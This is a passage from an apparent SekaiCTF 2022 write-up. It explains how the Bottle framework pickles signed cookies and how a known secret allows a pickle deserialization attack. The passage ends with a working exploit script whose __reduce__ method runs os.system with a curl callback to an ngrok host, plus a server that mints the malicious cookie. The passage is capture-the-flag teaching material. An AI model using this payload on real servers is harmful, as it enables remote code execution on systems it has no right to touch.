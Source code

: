Copying and pasting into the browser, we realize we're not done yet.

![asdf](https://an00brektn.github.io/img/sekaictf-2022/Pasted%20image%2020221003132125.png)

We can keep enumerating for files or try and see if there's more to the webapp, but ultimately, we won't find anything. The secret is actually in the sauce.

If we go to the bottle-py docs, we can see the source code for [how the cookie is made](https://bottle.readthedocs.io/en/latest/_modules/bottle.html#BaseResponse.set_cookie).
```python
# ...trim
        if secret:
            if not isinstance(value, basestring):
                depr(0, 13, "Pickling of arbitrary objects into cookies is "
                            "deprecated.", "Only store strings in cookies. "
                            "JSON strings are fine, too.")
            encoded = base64.b64encode(pickle.dumps([name, value], -1))
            sig = base64.b64encode(hmac.new(tob(secret), encoded,
                                            digestmod=digestmod).digest())
            value = touni(tob('!') + sig + tob('?') + encoded)
        elif not isinstance(value, basestring):
            raise TypeError('Secret key required for non-string cookies.')

        # Cookie size plus options must not exceed 4kb.
        if len(name) + len(value) > 3800:
            raise ValueError('Content does not fit into a cookie.')
# trim...
```

Turns out we're sticking pickles in our cookies, and that's not a good thing. In most cases, an attacker likely doesn't possess the server secret (unless it's default), and likely doesn't have a novel, field-shaking technique to break HMAC, so this is usually fine. But, we have the secret, and the Python `pickle` library is a form of serialization, which always has the looming threat of a [deserialization attack](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization).

I won't go into detail about how a deserialzation attack works because I think other people have done that well enough already. For specifics about the attack that we're going to implement, please reference this great blog by [David Hamann](https://davidhamann.de/2020/04/05/exploiting-python-pickle/),  or just find the ippsec/0xdf writeup of a box that has pickle deserialization.

We can revise our local server to create the cookie using the serialized payload instead of just the "admin" value, and hope this works for code execution. Rather than go directly for a reverse shell (which might be stopped by a firewall, assuming there is one), I'll have it call back to a local HTTP server using `ngrok` to port forward. We do the same process of copying and pasting cookies.

```python
from bottle import route, run, template, request, response, error
import os
import pickle

SECRET = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

class RCE:
    def __reduce__(self):
        cmd = ('curl http://4.tcp.ngrok.io:14387')
        return os.system, (cmd,)

@route("/test")
def index():
    session = pickle.dumps(RCE())
    response.set_cookie("name", session, secret=SECRET)
    return "cookie :)"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8001)
```
